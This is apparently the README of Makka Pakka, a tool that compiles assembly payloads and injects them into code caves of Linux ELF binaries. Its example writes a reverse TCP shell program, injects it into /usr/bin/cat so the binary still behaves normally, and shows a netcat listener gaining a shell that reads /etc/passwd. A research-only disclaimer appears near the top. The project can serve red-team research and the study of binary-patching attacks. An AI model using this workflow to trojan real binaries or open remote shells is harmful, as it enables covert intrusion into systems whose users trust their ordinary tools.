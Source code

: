 # Makka Pakka
Makka pakka is a programming language which transpiles into Intel assembly.
Makka pakka programs are specifically written to be embedded within a target
linux binary (ELF file). The language contains a submodule which autmatically
injects the compiled code into a
[code cave](https://en.wikipedia.org/wiki/Code_cave) of the target program.

To learn more, please visit the
[documentation page](https://lemon-bush-0f7dfc410.2.azurestaticapps.net/).

## Disclaimer
This project was created purely for research purposes. You do not have
permission to use this program for malicious code injection.

## Installation
__Makka Pakka only works on Linux. Trying to run it on other operating systems will not work.__

Makka pakka is distributed as a package on [PyPi](https://pypi.org/project/MakkaPakka).

To install, use pip:
``` bash
pip install MakkaPakka
```

You should then have access to three commands: mkpk, mkpk-transpile, elf-caver.

Test them out!
``` bash
mkpk --help
Usage: mkpk [OPTIONS] MKPK_FILEPATH TARGET_BINARY

Options:
-o, --output-file TEXT  The filepath to output the injected binary to.
-n, --patch-entrypoint  Patches the entrypoint to point to injected code.
-e, --patch-exit        Patches the process exit to point to the injected
                        code.
-v, --verbose           Logs a verbose output to stdout.
--help                  Show this message and exit.
```

``` bash
mkpk-transpile --help
Usage: mkpk-transpile [OPTIONS] MKPK_FILEPATH

Options:
-o, --output TEXT  The filepath to output the transpiled makka pakka code to.
--help             Show this message and exit.
```

``` bash
elf-caver --help
Usage: elf-caver [OPTIONS]

Options:
-a, --asm-file TEXT     The filepath of the .asm file to inject.  [required]
-t, --target-file TEXT  The filepath of the binary to inject into.
                        [required]
-o, --output-file TEXT  The filepath to output the injected binary to.
                        [required]
-n, --patch-entrypoint  (Optional) Patches the entrypoint to point to
                        injected code.
-e, --patch-exit        (Optional) Patches the process exit to point to the
                        injected code.
--help
```

## Example
Creating a Makka Pakka program file:
```
----- reverse_tcp.mkpk -----
!link stdlib/network.mkpk
!link stdlib/syscall.mkpk
!link stdlib/execve.mkpk

[[data]]
exit_msg: "Connection Terminated"
# 5555 in little endian.
port: 0xb315
# 127.0.0.1 in little endian.
addr: 0x0100007f

[[code]]
[main]
> socket
> connect "addr" "port"
> dup2
> bin_sh
> sys_write "exit_msg" 22
> sys_exit
```

Compiling the Makka Pakka program into /usr/bin/cat:
```
mkpk reverse_tcp.mkpk /usr/bin/cat -e -o cat_inject
Injecting assembly from cat_inject.asm into cat_inject.
Injected file output to cat_inject.mkpk reverse_tcp.mkpk
```

Setting up a listener on localhost:5555:
```
nc -l localhost 5555
```

Then run the injected cat binary, it looks inconspicuous! but...
```
./cat_inject --help
Usage: ./cat_inject [OPTION]... [FILE]...
Concatenate FILE(s) to standard output.

With no FILE, or when FILE is -, read standard input.

  -A, --show-all           equivalent to -vET
  -b, --number-nonblank    number nonempty output lines, overrides -n
  -e                       equivalent to -vE
  -E, --show-ends          display $ at end of each line
  -n, --number             number all output lines
  -s, --squeeze-blank      suppress repeated empty output lines
  -t                       equivalent to -vT
  -T, --show-tabs          display TAB characters as ^I
  -u                       (ignored)
  -v, --show-nonprinting   use ^ and M- notation, except for LFD and TAB
      --help     display this help and exit
      --version  output version information and exit

Examples:
  ./cat_inject f - g  Output f's contents, then standard input, then g's contents.
  ./cat_inject        Copy standard input to standard output.

GNU coreutils online help: <https://www.gnu.org/software/coreutils/>
Report any translation bugs to <https://translationproject.org/team/>
Full documentation <https://www.gnu.org/software/coreutils/cat>
or available locally via: info '(coreutils) cat invocation'
```

Now the netcat listener has a remote TCP shell!
```
nc -l localhost 5555
whoami
alex
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
syslog:x:104:111::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:106:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:107:113::/nonexistent:/usr/sbin/nologin
alex:x:1000:1000:,,,:/home/alex:/bin/bash
```
## Development Installation
If you wish to contribute to Makka Pakka, then these are the instruction for
downloading the source and setting up the dev environment

Prerequisite installs:
- Python 3.10+
- Netwide Assembler (NASM)

Clone the git repository and configure the environment.
``` bash
cd <your directory>
git clone https://github.com/PandasAreBears/MakkaPakka
```
``` bash
cd MakkaPakka
source configure.sh
```

At this point you can use Makka Pakka from within this directory.
``` bash
python3 mkpk.py --help
```

For more examples, or a more detailed technical explaination, please check
out the
[documentation page](https://lemon-bush-0f7dfc410.2.azurestaticapps.net/).
